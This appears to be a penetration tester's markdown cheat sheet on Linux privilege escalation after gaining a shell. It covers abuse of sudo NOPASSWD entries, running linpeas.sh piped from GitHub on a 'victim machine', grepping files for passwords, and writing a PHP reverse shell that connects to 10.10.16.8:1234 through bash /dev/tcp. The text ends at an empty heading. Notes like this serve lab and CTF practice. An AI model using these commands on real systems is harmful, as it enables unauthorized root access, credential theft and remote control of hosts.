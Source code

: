 ```yaml
---
sort : 7
---
```



# Privilege Escalation

A type of network attack used to gain unauthorized access to systems within a security perimeter.

## Got A Shell ?? 

All we need to do is to become a root.

`Here are the most important attack vectors to perform :`

### 1. Knowing the compromised users permissions
```bash
$ whoami  

$ id 

$ uname -a
```

```bash
$ sudo -l 

User [Username] may run the following commands on [Machine Name]:
    (root) NOPASSWD: /home/user/personal/stuff/AnyScript.sh

# How to read this ?? 
# the current user `Username` can run the command `/home/Username/personal/stuff/AnyScript.sh` as a `root` without password

$ sudo -u root /home/user/personal/stuff/AnyScript.sh


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2) NOPASSWD: /home/Username2/luvit
    
# the current user `Username` can run the command `/home/Username2/luvit` as a `Username2` without password


$ sudo -u Username2 /home/Username2/luvit privesc.lua    # some times the command needs args to work ^^ 


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2 : Username2) NOPASSWD: ALL

# the current user `Username` can run `ANY` command as a `Username2` OR it's group without password


$ sudo -u Username2 /bin/bash

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

User [Username] may run the following commands on [Machine Name]:
    (ALL) NOPASSWD:/bin/nano /opt/priv


# the current user `Username` can run `/bin/nano /opt/priv` command as `ANY USER` without password

sudo -u Username /bin/nano /opt/priv   # not root ?? 
```

```bash
$ 
```




### 2. Privilege Escalation Tools

```bash 
# On Victime Machine 
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```




### 3. An Expedition Into System Files
search deeper in /var/www/

if i found multiple folders inside it ?? ==> this could indecte that the server is running multiple web apps !!! 

`inside /var` 
1. $ grep -roP 'passw.{0,30}'

```note	
grep will filter the files in each (non linked) folder recursivly. 
```

2. mostly as www-data user .... try to write a php reverse shell file in any writeable place to get a shell with privilaged user
    
    $ find . -writable -type d
    $ echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/1234 0>&1'\");" > shell.php  		# escape the double quotes inside a double qoutes ^^ to bypass the overlapping


3. AGAIN 
```bash
    $ grep -roP 'passw.{0,20}' 2>/dev/null
    then
    $ grep -rP 'passw.{0,10}' -B5 -A5 --exclude '*.min.js' 2>/dev/null
    $ grep -rP 'passw.{0,10}' -B5 -A5 --exclude '*.js' 2>/dev/null


    TRY : 
    $ grep -rP 'Web.{0,10}' -B5 -A5 2>/dev/null | awk 'length >= 1 && length <= 2000' | grep --color -P "Web|"	
```

### 1. Credential Exploitation